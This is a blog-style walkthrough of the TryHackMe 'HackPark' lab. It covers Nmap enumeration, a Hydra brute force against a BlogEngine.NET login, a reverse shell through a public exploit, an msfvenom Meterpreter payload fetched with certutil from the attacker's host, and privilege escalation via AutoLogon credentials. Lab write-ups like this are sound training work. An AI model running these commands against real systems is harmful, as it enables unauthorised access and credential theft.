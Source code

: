 ```yaml
---
layout: post
title:  "TryHackMe - HackPark Writeup"
date:   2021-11-02 12:52:00 -0400
tags: tryhackme pentesting cybersecurity
comments: true
---
```


[HackPark](https://tryhackme.com/room/hackpark) is a Medium difficulty room, although it guides you along fairly well for the initial foothold, and it's pretty easy to root if you do proper basic enumeration.

## Initial Enumeration
The first step in any pentest situation is enumeration. It's important to get as much information about the machine and its users as possible. To start off, we'll use Nmap to perform a port scan and see what services are active and listening on the box. Nmap is a versitle tool, and many people have their own preferred methods to balance speed and accuracy, but here are the options I'll use.

- `-sC`: Run default scripts. Nmap can do additional enumeration beyond just checking for open ports, and this option will run some quick and useful extra scans to give us even more information about what we're working with.
- `-sV`: Run version detection. Knowing what specific version of a service is in use can help with finding potential vulnerabilities, or ruling them out.
- `-v`: Be verbose. This outputs extra information to the console as the scan runs, the most useful of which are status updates and showing open ports as it finds them.
- `-oN`: Output to a file in the Nmap format. Having a file to refer back to intead of having to scroll through console output is very useful. Nmap can save to a variety of file formats, and you may have reasons to use them, but for me just the normal plain-text format is enough.
- `-Pn`: Don't use `ping` for host detection. This machine doesn't respond to ping, so to get Nmap to scan it at all, we need to use this option.

Using these options, we're left with the following command:
```bash
nmap -sC -sV -vv -Pn -oN nmap-initial.txt 10.10.97.88
```

This machine is surprising quiet considering it's a Windows machine. We get two open ports: 80 and 3389. Nmap detects port 80 running Microsoft IIS and 3389 hosting Remote Desktop.

Investigating the web server on port 80, we find a simple blog with a single post. A little bit of poking around reveals that the site is powered by ASPX, which is pretty common for an IIS server. The site seems to be powered by [BlogEngine.NET](https://blogengine.io/).

## Brute Force
There's a login form accessible from the site's main menu, so we'll try a brute force attack against that to see if the password happens to be vulnerable. Usernames are revealed by BlogEngine through a feature that lets you see all posts by a specific user. The username appears to be "Admin", which would have been an easily guessable username anyway.

We'll use [Hydra](https://github.com/vanhauser-thc/thc-hydra) for our brute force attack. There's a lot of junk we need to tack onto the requests we send to the form, but the main points to note are that `ctl00%24MainContent%24LoginUser%24UserName` is the username field and `ctl00%24MainContent%24LoginUser%24Password` is the password field. We know the password was wrong if we get a "Login failed" message, so we'll tell Hydra to look for that string.

```bash
hydra -l Admin -P /usr/share/wordlists/rockyou.txt 10.10.97.88 http-post-form '/Account/login.aspx?ReturnURL=/admin/:__VIEWSTATE=E2OPdwooQYKBe3hHmFyHa%2Bf42FNOA%2B0i3IfPFd2E6QX4ZFLFHeNhaurK%2BkcrI5TnLLXMiFxKO8IoF2PNUe4yxUE00Ypa1Fw9vUIoNSabbCRy2tPdaEfUccXF3nsmyHtUxFdrxb6w%2FLJ5tv5p5Uo5e4FqjE6fJOA3%2FYKOPDlZ9V38FMGP&__EVENTVALIDATION=x4B7wKhqtjq9qtvOm0hyFmAk48Vm4da4a79DWyJ1XRt6%2BGfR%2BQEE2Pfw9lQ7O0mrmbTenxGMb8si9MEfKGEXDxVPHW99J1XBzWlK7G5Hl11sx5J9sWQwIwtNAFx8skqv9lVGaynV%2BGp5CV81h3etCvc60o8Yu0m5nCeTk2o5BNZTNaEx&ctl00%24MainContent%24LoginUser%24UserName=^USER^&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in:Login failed'
```

Hydra sucessfully finds the password for us, giving us access to the site's admin panel.

## Remote Code Execution
The "About" section gives us a version number of 3.3.6.0. Conveniently, there happens to be [a useful vulnerability with an exploit available on Exploit-DB](https://www.exploit-db.com/exploits/46353). The author was kind enough to give fairly detailed instructions within the script.

Following the instructions in the exploit, we'll set our attacking machine's IP in the script and use BlogEngine's post editor to upload it as `PostView.ascx`. Then we'll leverage a path traversal vulnerability to get BlogEngine to execute our code and give us a reverse shell. We land as a lowly IIS worker user.

This particular Windows reverse shell really sucks and is supposedly unstable, so upgrading to something a bit more attacker-friendly would be nice. We'll throw together an MSFVenom payload to give us a nice Meterpreter shell.

```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.13.14.52 LPORT=9001 -f exe > shell.exe
```

Unfortunately, getting PowerShell to work through this garbage shell is more work than I care to put in, so we'll try out the Certutil method for downloading our file to the target machine ([Thanks, HackTricks](https://book.hacktricks.xyz/windows/basic-cmd-for-pentesters#download)).

```
certutil.exe -urlcache -split -f "http://10.13.14.52:8000/shell.exe" shell.exe
```

## Privilege Escalation
To give us a good starting point, we'll try running WinPEAS on the machine and see what it can find for us. A handful of interesting results come back.

```
    Some AutoLogon credentials were found
    DefaultUserName               :  administrator
    DefaultPassword               :  *************
```

```
    AWSLiteAgent(Amazon Inc. - AWS Lite Guest Agent)[C:\Program Files\Amazon\XenTools\LiteAgent.exe] - Auto - Running - No quotes and Space detected
    AWS Lite Guest Agent
   =================================================================================================
```

```
    WindowsScheduler(Splinterware Software Solutions - System Scheduler Service)[C:\PROGRA~2\SYSTEM~1\WService.exe] - Auto - Running
    File Permissions: Everyone [WriteData/CreateFiles]
    Possible DLL Hijacking in binary folder: C:\Program Files (x86)\SystemScheduler (Everyone [WriteData/CreateFiles])
    System Scheduler Service Wrapper
   =================================================================================================
```

The unquoted service path lands in a folder we probably don't have access to, so it's unlikely that we'll be able to take advantage of that. The DLL hijack is promising, but will also take a bit of legwork to set up. The AutoLogon credentials are the most baindead easy possibility of getting access, so we'll try those first. 

![Order 66](/assets/images/order-66.png)

Surprisingly, it just works, and we end up with an admin RDP session. From there we're able to grab both of the flags without issue.

The intended method is using write access to the SystemScheduler folder to overwrite an executable and get a second reverse shell (technically an EXE hijack as opposed to a DLL hijack), but the RDP method is just so much more painless.
